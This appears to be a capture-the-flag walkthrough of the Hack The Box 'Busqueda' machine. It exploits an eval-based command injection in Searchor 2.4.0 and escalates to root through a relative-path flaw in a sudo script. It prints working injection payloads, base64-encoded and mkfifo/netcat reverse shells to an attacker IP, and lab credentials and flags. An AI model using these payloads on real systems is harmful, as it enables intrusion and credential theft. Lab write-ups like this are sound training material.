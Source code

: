 # About Busqueda

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user&amp;amp;#039;s `Gitea` account. Further analysis of the system checkup script&amp;amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges.



```bash
nmap -p- --min-rate 10000 10.129.148.230
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-21 10:14 CDT
Nmap scan report for 10.129.148.230
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds

```

Continued scanning 

```bash
nmap -p 22,80 -sCV 10.129.148.230
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-21 10:16 CDT
Nmap scan report for 10.129.148.230
Host is up (0.074s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
```

I added searcher.htb to my /etc/hosts file:

10.129.148.230 searcher.htb

Navigate to the site and notice is Powered by Flask and Searchor 2.4.0


If we follow the hyperlink on "Searchor 2.4.0" in the webpage footer, we are redirected to its GitHub
repository, where we can examine the changelog for the various released versions. There is a mention of a
priority vulnerability being patched in version 2.4.2 . The version in use by the website is 2.4.0 which
means that it is likely vulnerable.


Looking at the patch, we can see that the pull request is about patching a command injection vulnerability
present in the search functionality due to the use of an eval statement on unsanitized user input.

We can view the specific commit, which shows the eval statement that was replaced in the main.py file.
```py
   url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```


employ a payload like the
following to exploit this vulnerability and achieve command injection

```bash

') + str(__import__('os').system('id')) #
```

```bash
uid=1000(svc) gid=1000(svc) groups=1000(svc) https://www.accuweather.com/en/search-locations?query=0
````

The output of the id command is returned successfully, indicating that our injection was successful.



To validate code execution on the remote host, let us proceed to submit the payload in the query
parameter of the web application.

```bash
')+ str(__import__('os').system('id'))#
```


```
uid=1000(svc) gid=1000(svc) groups=1000(svc) https://www.accuweather.com/en/search-locations?query=0
```

In order to leverage this into an interactive shell, we first start a Netcat listener on our local machine on
port 1337 

``bash
nc -nvlp 1337
listening on [any] 1337 ...
```
```sql
')+ str(__import__('os').system('echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjYvMTMzNyAwPiYx|base64 -d|bash'))#
```
I obtain a reverse shell on our Netcat listener.
```bash
connect to [10.10.14.126] from (UNKNOWN) [10.129.148.230] 47082
bash: cannot set terminal process group (1376): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ 
```

The user flag can be obtained at /home/svc/user.txt .

```bash
svc@busqueda:/var/www/app$ cat /home/svc/user.txt
b4195a11055e4b8a1cbb7f3dda2ee1e8
```
By enumerating the files on the remote host, we can identify the credential pair
cody:jh1usoih2bkjaspwe92 stored in the /var/www/app/.git/config file. It also contains a reference to
the gitea.searcher.htb subdomain.

```bash
svc@busqueda:/var/www/app$ find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc        


-rw-rw-r-- 1 svc svc 76 Apr  3  2023 /home/svc/.gitconfig
-rw-r--r-- 1 svc svc 3771 Jan  6  2022 /home/svc/.bashrc
-rw-r--r-- 1 svc svc 220 Jan  6  2022 /home/svc/.bash_logout
-rw-r--r-- 1 svc svc 807 Jan  6  2022 /home/svc/.profile
```

```
svc@busqueda:/var/www/app$ cat /var/www/app/.git/config
cat /var/www/app/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

logged in using ssh

```bash
 ssh svc@10.129.148.230
```

```bash
Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
svc@busqueda:~$
```

navigate to 
> gitea.searcher.htb

Under the "Explore" section, it can be seen that there are 2 users on the Gitea application, namely cody
and administrator .

logged in as the user cody with the earlier obtained credentials, only to find a private repository
named Searcher_site which contains the source code of the Searcher web app


```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```


Upon executing the Python script, a help menu displaying the usable arguments is presented.

```bash      
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED       STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   2 years ago   Up 2 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   2 years ago   Up 2 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```


```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea
| jq
{"Id":"960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb","Created":"2023-01-06T17:26:54.457090149Z","Path":"/usr/bin/entrypoint","Args":["/bin/s6-svscan","/etc/s6"],"State":{"Status":"running","Running":true,"Paused":false,"Restarting":false,"OOMKilled":false,"Dead":false,"Pid":1863,"ExitCode":0,"Error":"","StartedAt":"2025-07-21T15:09:55.864844146Z","FinishedAt":"2023-04-04T17:03:01.71746837Z"},"Image":"sha256:6cd4959e1db11e85d89108b74db07e2a96bbb5c4eb3aa97580e65a8153ebcc78","ResolvConfPath":"/var/lib/docker/containers/960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb/resolv.conf","HostnamePath":"/var/lib/docker/containers/960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb/hostname","HostsPath":"/var/lib/docker/containers/960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb/hosts","LogPath":"/var/lib/docker/containers/960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb/960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb-json.log","Name":"/gitea","RestartCount":0,"Driver":"overlay2","Platform":"linux","MountLabel":"","ProcessLabel":"","AppArmorProfile":"docker-default","ExecIDs":null,"HostConfig":{"Binds":["/etc/timezone:/etc/timezone:ro","/etc/localtime:/etc/localtime:ro","/root/scripts/docker/gitea:/data:rw"],"ContainerIDFile":"","LogConfig":{"Type":"json-file","Config":{}},"NetworkMode":"docker_gitea","PortBindings":{"22/tcp":[{"HostIp":"127.0.0.1","HostPort":"222"}],"3000/tcp":[{"HostIp":"127.0.0.1","HostPort":"3000"}]},"RestartPolicy":{"Name":"always","MaximumRetryCount":0},"AutoRemove":false,"VolumeDriver":"","VolumesFrom":[],"CapAdd":null,"CapDrop":null,"CgroupnsMode":"private","Dns":[],"DnsOptions":[],"DnsSearch":[],"ExtraHosts":null,"GroupAdd":null,"IpcMode":"private","Cgroup":"","Links":null,"OomScoreAdj":0,"PidMode":"","Privileged":false,"PublishAllPorts":false,"ReadonlyRootfs":false,"SecurityOpt":null,"UTSMode":"","UsernsMode":"","ShmSize":67108864,"Runtime":"runc","ConsoleSize":[0,0],"Isolation":"","CpuShares":0,"Memory":0,"NanoCpus":0,"CgroupParent":"","BlkioWeight":0,"BlkioWeightDevice":null,"BlkioDeviceReadBps":null,"BlkioDeviceWriteBps":null,"BlkioDeviceReadIOps":null,"BlkioDeviceWriteIOps":null,"CpuPeriod":0,"CpuQuota":0,"CpuRealtimePeriod":0,"CpuRealtimeRuntime":0,"CpusetCpus":"","CpusetMems":"","Devices":null,"DeviceCgroupRules":null,"DeviceRequests":null,"KernelMemory":0,"KernelMemoryTCP":0,"MemoryReservation":0,"MemorySwap":0,"MemorySwappiness":null,"OomKillDisable":null,"PidsLimit":null,"Ulimits":null,"CpuCount":0,"CpuPercent":0,"IOMaximumIOps":0,"IOMaximumBandwidth":0,"MaskedPaths":["/proc/asound","/proc/acpi","/proc/kcore","/proc/keys","/proc/latency_stats","/proc/timer_list","/proc/timer_stats","/proc/sched_debug","/proc/scsi","/sys/firmware"],"ReadonlyPaths":["/proc/bus","/proc/fs","/proc/irq","/proc/sys","/proc/sysrq-trigger"]},"GraphDriver":{"Data":{"LowerDir":"/var/lib/docker/overlay2/6427abd571e4cb4ab5c484059a500e7f743cc85917b67cb305bff69b1220da34-init/diff:/var/lib/docker/overlay2/bd9193f562680204dc7c46c300e3410c51a1617811a43c97dffc9c3ee6b6b1b8/diff:/var/lib/docker/overlay2/df299917c1b8b211d36ab079a37a210326c9118be26566b07944ceb4342d3716/diff:/var/lib/docker/overlay2/50fb3b75789bf3c16c94f888a75df2691166dd9f503abeadabbc3aa808b84371/diff:/var/lib/docker/overlay2/3668660dd8ccd90774d7f567d0b63cef20cccebe11aaa21253da056a944aab22/diff:/var/lib/docker/overlay2/a5ca101c0f3a1900d4978769b9d791980a73175498cbdd47417ac4305dabb974/diff:/var/lib/docker/overlay2/aac5470669f77f5af7ad93c63b098785f70628cf8b47ac74db039aa3900a1905/diff:/var/lib/docker/overlay2/ef2d799b8fba566ee84a45a0070a1cf197cd9b6be58f38ee2bd7394bb7ca6560/diff:/var/lib/docker/overlay2/d45da5f3ac6633ab90762d7eeac53b0b83debef94e467aebed6171acca3dbc39/diff","MergedDir":"/var/lib/docker/overlay2/6427abd571e4cb4ab5c484059a500e7f743cc85917b67cb305bff69b1220da34/merged","UpperDir":"/var/lib/docker/overlay2/6427abd571e4cb4ab5c484059a500e7f743cc85917b67cb305bff69b1220da34/diff","WorkDir":"/var/lib/docker/overlay2/6427abd571e4cb4ab5c484059a500e7f743cc85917b67cb305bff69b1220da34/work"},"Name":"overlay2"},"Mounts":[{"Type":"bind","Source":"/root/scripts/docker/gitea","Destination":"/data","Mode":"rw","RW":true,"Propagation":"rprivate"},{"Type":"bind","Source":"/etc/localtime","Destination":"/etc/localtime","Mode":"ro","RW":false,"Propagation":"rprivate"},{"Type":"bind","Source":"/etc/timezone","Destination":"/etc/timezone","Mode":"ro","RW":false,"Propagation":"rprivate"}],"Config":{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}},"NetworkSettings":{"Bridge":"","SandboxID":"166a36acb42e1ff08182d379277088e62d89d1f7bb7739dea302f2c2046c7b04","HairpinMode":false,"LinkLocalIPv6Address":"","LinkLocalIPv6PrefixLen":0,"Ports":{"22/tcp":[{"HostIp":"127.0.0.1","HostPort":"222"}],"3000/tcp":[{"HostIp":"127.0.0.1","HostPort":"3000"}]},"SandboxKey":"/var/run/docker/netns/166a36acb42e","SecondaryIPAddresses":null,"SecondaryIPv6Addresses":null,"EndpointID":"","Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"IPAddress":"","IPPrefixLen":0,"IPv6Gateway":"","MacAddress":"","Networks":{"docker_gitea":{"IPAMConfig":null,"Links":null,"Aliases":["server","960873171e2e"],"NetworkID":"cbf2c5ce8e95a3b760af27c64eb2b7cdaa71a45b2e35e6e03e2091fc14160227","EndpointID":"9a80fc2594f27f4a596a81fbad688580b208b0fef045dbd142c6020f964ac896","Gateway":"172.19.0.1","IPAddress":"172.19.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"MacAddress":"02:42:ac:13:00:02","DriverOpts":null}}}}
```

Using the obtained password yuiu1hoiu4i5ho1uh , we can log into the Gitea application as the
administrator user.


So, let's create a file /tmp/full-checkup.sh and insert a reverse shell payload into it.
We then make it executable.
Next, we start a Netcat listener on port 9001 on our local machine to receive the reverse shell.
Finally, we run the following command on the remote host from the /tmp directory to trigger the reverse
shell.
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.126
9001 >/tmp/f" > /tmp/full-checkup.sh
chmod +x /tmp/full-checkup.sh
nc -nvlp 9001
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup


```bash
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.126] from (UNKNOWN) [10.129.148.230] 36144
# cat /root/root.txt
14d5e015bd2f50a6cc2883e843d768df
# 

```
